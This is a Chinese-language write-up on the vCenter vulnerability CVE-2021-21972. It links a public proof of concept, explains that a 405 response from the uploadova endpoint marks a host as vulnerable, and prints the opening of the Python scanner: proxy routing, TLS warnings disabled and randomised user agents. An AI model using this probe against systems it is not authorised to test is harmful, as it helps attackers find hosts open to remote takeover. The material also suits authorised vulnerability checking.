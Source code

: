 



## POC

>https://github.com/QmF0c3UK/CVE-2021-21972-vCenter-6.5-7.0-RCE-POC/blob/main/CVE-2021-21972.py



该poc主要就是通过以下路径来进行判断, 如果返回405则表示该漏洞存在：

```
/ui/vropspluginui/rest/services/uploadova
```

POC代码如下：

```python
#!/usr/bin/python3
# -*- coding=utf-8 -*-
#-*- coding:utf-8 -*-
banner = """
        888888ba             dP                     
        88    `8b            88                     
       a88aaaa8P' .d8888b. d8888P .d8888b. dP    dP 
        88   `8b. 88'  `88   88   Y8ooooo. 88    88 
        88    .88 88.  .88   88         88 88.  .88 
        88888888P `88888P8   dP   `88888P' `88888P' 
   ooooooooooooooooooooooooooooooooooooooooooooooooooooo 
                @time:2021/02/24 CVE-2021-21972.py
                C0de by NebulabdSec - @batsu                  
 """
print(banner)

import threadpool
import random
import requests
import argparse
import http.client
import urllib3
import socket
import socks

socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 1080)
socket.socket = socks.socksocket

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

TARGET_URI = "/ui/vropspluginui/rest/services/uploadova"


def get_ua():
    first_num = random.randint(55, 62)
    third_num = random.randint(0, 3200)
    fourth_num = random.randint(0, 140)
    os_type = [
        '(Windows NT 6.1; WOW64)', '(Windows NT 10.0; WOW64)', '(X11; Linux x86_64)',
        '(Macintosh; Intel Mac OS X 10_12_6)'
    ]
    chrome_version = 'Chrome/{}.0.{}.{}'.format(first_num, third_num, fourth_num)

    ua = ' '.join(['Mozilla/5.0', random.choice(os_type), 'AppleWebKit/537.36',
                   '(KHTML, like Gecko)', chrome_version, 'Safari/537.36']
                  )
    return ua
```